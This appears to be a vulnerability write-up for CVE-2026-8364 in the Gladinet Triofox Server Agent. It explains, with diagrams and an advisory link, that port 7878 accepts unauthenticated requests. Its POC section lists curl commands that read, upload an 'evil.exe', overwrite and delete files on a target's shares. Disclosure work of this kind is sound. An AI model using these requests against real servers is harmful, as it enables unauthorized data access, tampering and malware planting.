


# CVE-2026-8364

<br>
<br>

## Gladinet Triofox Server Agent

- Product page [here](https://www.triofox.com/)

<br>
<br>

#### Normal Flow

- Sits between the external network/ Internet and the Internal Company assets.

- Authenticates and Manages assets into one place, without requiring VPN

- Integrates with AD services for SSO and other authentication mechansisms.


```
Remote Employee
      |
  HTTPS / Web App / Client
      |
+---------------------------+
| Triofox Server Agent      |
| (GladServerAgentService)  |
| Port 7878 + Web Services  |
+---------------------------+
      |
      +----> Active Directory
      |
      +----> Windows File Shares
      |          \\FILESERVER\HR
      |
      +----> Mapped Virtual Drive
                 M:\
```




<br>
<br>

#### Vulnerable Flow

- Does the same job as before, but fails at a classic port binding.

- The vendors thought port __`7878`__ would only be open internally, hence wont required Autnentication

- But the service on port 7878 was accessible remotely to unauthenticated users will full privileges.

```
Attacker
   |
   | HTTP Requests
   | (NO AUTH REQUIRED)
   v
+---------------------------+
| GladServerAgentService    |
| TCP 7878                  |
| Vulnerable Endpoints      |
| /resources                |
| /Settings                 |
| /profile                  |
+---------------------------+
      |
      v
Internal File Access
(M:\ mapped drive)
      |
      +--> Read files
      +--> Upload files
      +--> Modify files
      +--> Delete files
```



<br>
<br>

## Vulnerability Details

- The cve advisory can be read [here](https://www.tenable.com/security/research/tra-2026-45)

- This is a __CRITICAL__ severity Vulnerability with CVSS3 score: 9.8.

- There are no official mentions for the affected versions, but the advisory says the fix is to upgrade the Server Side software to version `17.3.10565.57509 or later.`


- This maps directly with [CWE-306](https://cwe.mitre.org/data/definitions/306.html)


<br>
<br>

## POC


- The following POC works with any Server Application, using _`curl`_ as a client:

```bash

# Show content of an existing file on a published share
curl 'http://<target-host>:7878/resources/share1/file1.txt'

# Upload a malicious file to a published share
# - Require Personal Home Drive enabled in the Triofox web portal
curl -i -X PUT -d 'malicious content' 'http://<target-host>:7878/resources/share1/evil.exe'

# Change content of an existing file on a published share
# - Require Personal Home Drive enabled in the Triofox web portal
curl -i -X PUT -d 'original content replaced' 'http://<target-host>:7878/resources/share1/evil.exe'

# Delete an existing file on a published share
# - Require Personal Home Drive enabled in the Triofox web portal
curl -i -X DELETE 'http://<target-host>:7878/resources/share1/evil.exe'
```
